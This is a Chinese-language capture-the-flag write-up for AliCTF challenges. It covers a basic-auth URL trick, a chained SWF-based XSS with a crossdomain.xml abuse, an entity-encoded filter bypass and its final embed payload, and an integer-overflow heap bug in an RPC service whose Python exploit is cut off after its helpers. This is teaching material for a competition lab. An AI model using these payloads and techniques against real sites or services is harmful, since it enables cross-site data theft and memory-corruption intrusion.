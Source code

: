 提交得到 flag。

### 200pt

此题限定了开始部分,利用基础认证的形式,构造

```
http://www.taobao.com:dsd@web200b.alictf.com/5.php 
```

得到 flag。

### 300pt

页面打开后发现会载入 whitehat.jpg,下载改后缀为 rar,猜密码为 www.alictf.com,得到提示*.php?img=exp。

又根据题目说在找不到的地方,查看 robots.txt,得到两个隐藏页面。

upload.php 可以用来上传文件,不过强制随机重名命名为 jpg 文件,内容并不检测。 flag.php 为限制文件,只有 admin 能看到。

利用.php?img=exp 可以构造出 xss 来,不过会被 chrome 自身的 xss auditor 拦截。 查看 crossdomain.xml 文件,发现`<allow-access-from domain=""/>` 这样本题就很明确为构造 swf 的 xss。

参考 http://www.freebuf.com/articles/web/37432.html 构造恶意 swf 文件,通过上传点上传。

本题 php 会检查提交的参数里有没有”/”,若存在则会忽略输入,可以用 html 编码为/绕过。

另外在接收 flag.php 内容的站点需要配置 crossdomain.xml 文件,内容同 web300b 的 crossdomain.xml 文件。 最终 payload 为

```
￼"><embed src="http:&#47;&#47;web300b.alictf.com&#47;upload&#47;A57yr8SGGfZKFSPHKrAGk0DYMETL6Aok_jpg.jpg" 
```

提交后记录 flag 用的脚本发现内容没有 flag,注意到管理请求的 referer 为 http://127.0.0.1 开头,修改 Swf 读取的 url 指向 http://127.0.0.1/flag.php,再次提交 得到 flag。

## Part 5 CodeSafe

### 100pt

大概浏览了一下是一个 Linux 提供 RPC 的程序,一共有 3 个 functoin 可以让你调用。漏洞发生在 rpc_function_1,其中注意到: ￼

```
mtl = temp.mtt * tl + 1; mt = (char*)malloc(mtl); 
if(mt)
{
    strcpy(mt,temp.t);
    for(i = 1;i < temp.mtt;i++)
￼￼￼￼￼￼} 
```

由于 temp.mtt 以及 tl 均为 unsigned short 类型并且均可控,所以构造数据可以使得两者乘法导致整形溢出,mtl 会变得较小,于是申请的堆块区域会不足以 放得下传进来的数据,导致堆溢出。完整的 exploit 如下:

```
import struct
import time
import socket
import telnetlib
import random
import sys

def p(x):
    return struct.pack('<I', x)

def netp(x):
    return struct.pack('>I', x)

def shortp(x):
    return struct.pack('<H', x)
```